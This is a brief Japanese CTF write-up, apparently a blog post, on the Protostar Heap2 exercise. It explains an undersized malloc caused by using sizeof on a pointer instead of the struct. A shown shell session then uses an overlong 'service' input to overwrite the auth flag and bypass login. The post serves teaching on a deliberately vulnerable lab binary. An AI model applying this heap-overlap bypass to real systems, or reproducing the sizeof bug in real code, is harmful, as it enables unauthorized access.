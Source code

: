 ```yaml
---
layout: post
alias: "/blog/2016/01/23/exploit-exercises-protostar-heap2/"
title: "Exploit Exercises Protostar Heap2"
date: 2016-01-23T14:36:33+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap" ]
---
```


0,1と比較して簡単。

## [Protostar Heap2](https://exploit-exercises.com/protostar/heap2/)

``` c
struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
```

に対して、

``` c
auth = malloc(sizeof(auth));
```

としてしまっている。つまり`sizeof(struct auth)`でなく`sizeof(struct auth *)`になっている。

`auth->auth`を真にするだけでよいので簡単。

``` sh
$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x8973008, service = (nil) ]
login
please enter your password
[ auth = 0x8973008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x8973008, service = 0x8973018 ]
login
you have logged in already!
[ auth = 0x8973008, service = 0x8973018 ]
```
